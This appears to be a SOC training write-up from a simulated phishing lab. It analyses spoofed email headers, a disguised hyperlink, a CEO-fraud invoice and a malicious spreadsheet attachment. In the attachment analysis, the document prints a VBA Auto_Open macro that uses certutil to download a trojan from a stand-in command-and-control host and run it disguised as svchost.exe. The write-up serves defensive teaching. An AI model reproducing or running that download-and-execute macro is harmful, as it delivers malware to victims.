




# 📧 Email Security Triage & Forensics: End-to-End Phishing Investigation Report
### 🔬 Case Study: Linuxenic Security Simulation Lab

---

## 📌 Project Context & Disclaimer
> **⚠️ Educational Lab Scenario:** 
> This investigation was conducted using simulated artifacts (.eml/.msg email files, header logs, and untrusted links/files) provided by the Linuxenic Corp. cybersecurity training platform. This report has been compiled chronologically into a single comprehensive case study to demonstrate the incident response capabilities of a SOC analyst. 

---

## Manual Analysis of The Header and Body 
The SOC team received a report of a potentially malicious email. The email contained a link intended for employees


**Case 1**


```
From
IT Support Team <support@linuxenic-corp.com>
To
employee@linuxenic-corp.com
Date
Mon, 27 Jan 2025 09:15:42 +0700
```
Show original :
```
Return-Path: <bounce@suspicious-domain.xyz>
```
The Return-Path is different from the From field. The email actually came from **suspicious-domain.xyz**.

```
Received: from smtp-out.suspicious-domain.xyz
```
The original sending server is also not from linuxenic-corp.com

```
Received-SPF: fail
dkim=fail
dmarc=fail
```
```
X-Mailer: PHPMailer 6.5.0
X-PHP-Originating-Script: 0:send_phish.php
```
Sent using **PHPMailer** from the send_phish.php script. This indicates that this email was created using **phishing tools.**


**Case 2**





**Hidden URL & Hyperlink Analysis**
* **What:** It appears that there is nothing unusual about this email. The team needs to take a closer look in the **dev tools** to see if there is anything suspicious. There is a link embedded in an invisible 1x1-pixel image. The link is used to determine whether the recipient has viewed the email or not.

```

```
* **How :** The link also leads to a dangerous address. It says benefit.linuxenic-corp.com, but the actual link leads to malicious.xyz

```
<a href="http://linuxenic-corp.benefits-portal.suspicious-domain.xyz/enroll?ref=email"
   style="color:#1e3a5f;">https://benefits.linuxenic-corp.com/enroll</a>
```

* **Why & Findings :** A hidden link manipulation technique (hidden redirection) has been discovered. Attackers disguise links to make them appear safe in the body of an email, but the HTML code redirects users to the attacker’s server.

**Case 3**



* **What:** This email may be malicious because it was not sent by DHL, but by **sfrloyer.com**
  ```
  Return-Path: <noreply@sfrloyer.com>
  ```
* **How:** The attacker sends a file purporting to be a notification from DHL. However, there is something suspicious about it: the file is in .xlsx format. Once the target opens the file, a script from the attacker runs automatically to download a malicious file from the attacker’s server and execute it immediately.

To view the contents of an attachment in an email that you suspect is malicious, do not open the attachment directly. Use “file [file_name]” to view the original format of the attached file. Then examine the file's strings using “strings [file_name]”.


```
file DHL-Shipment-Notice.xlsx
```

```
strings DHL-Shipment-Notice.xlsx
```
  ```
  Shipment ID: DHL-7829341-LNX
Sender: Global Trading Co.
Destination: Jakarta, Indonesia
Weight: 2.5 kg
Status: In Transit
U~aq
Sub Auto_Open()
  Shell "cmd /c certutil -urlcache -split -f http://c2.malware-drop.xyz/dhl_trojan.exe %TEMP%\svchost.exe && start %TEMP%\svchost.exe"
End Sub
}PfJh
#h]5
http://dhl-tracking.shipment-update.malicious-domain.xyz/track?id=DHL-7829341
H.62
hkHP
t{%dhrD7
fp-e
(Ffe

```
Focus on 

```
Sub Auto_Open()
Shell "cmd /c certutil -urlcache -split -f http://c2.malware-drop.xyz/dhl_trojan.exe %TEMP%\svchost.exe && start %TEMP%\svchost.exe"
```
Once the malware has been successfully downloaded from the attacker’s server, it is saved with a name similar to that of a genuine Windows process and runs immediately after being downloaded.


## Email Analysis With Tools

Using tools to analyze malicious emails greatly helps make the analysis process much faster and more efficient.

**Case 3**


```
From
m.anderson@linuxenic-corp.com
To
employee@linuxenic-corp.com
Reply-To
m.anderson.ceo@protonmail.com
Date
Tue, 28 Jan 2025 09:14:22 +0000
```

Protonmail.com is not a corporate email service, such emails should be treated with suspicion as potentially dangerous.

```
Delivered-To: employee@linuxenic-corp.com
Return-Path: <ceo-urgent@offshore-bizfin.xyz>
Received: from mail-out.offshore-bizfin.xyz 
```
The return path also doesn't match the “From” field. This indicates that the email is malicious. Any attachments sent via this email are also certainly malicious. Analyzing the contents of a malicious email attachment directly can be dangerous. Specialized tools for analyzing phishing emails are the most effective way to handle this.

```
INVOICE: GlobalTech Solutions Ltd.
Invoice No: GT-INV-2025-4847
Date: January 28, 2025
Due: January 28, 2025 (SAME DAY)
========================================
Service: Q4 IT Infrastructure Consulting
Amount: USD 47,250.00
========================================
Wire Transfer Details:
Bank: First Caribbean International Bank
Account Name: GlobalTech Solutions Ltd.
Account No: 8837-2941-0055-7721
SWIFT/BIC: FCIBJMKN
Reference: GT-Q4-LINUXENIC-2025
========================================
/URI (http://wire-payment.globaltech-invoice.xyz/pay?inv=GT-29481)
/URI (http://globaltech-portal.offshore-bizfin.xyz/confirm?ref=GT-Q4)
========================================
IoC Reference (Threat Intel):
SHA256: 6d55f25222831cce73fd9a64a8e5a63b002522dc2637bd2704f77168c7c02d88
Classification: Emotet Dropper (Epoch 5)
Source: MalwareBazaar / abuse.ch
```
Analyze the file contents to extract information and the SHA256 hash for comparison using specialized tools for phishing email analysis like **Virustotal**.



This file has been detected as malware. You can view a lot of information here, such as the malware family name, the original file name, etc.
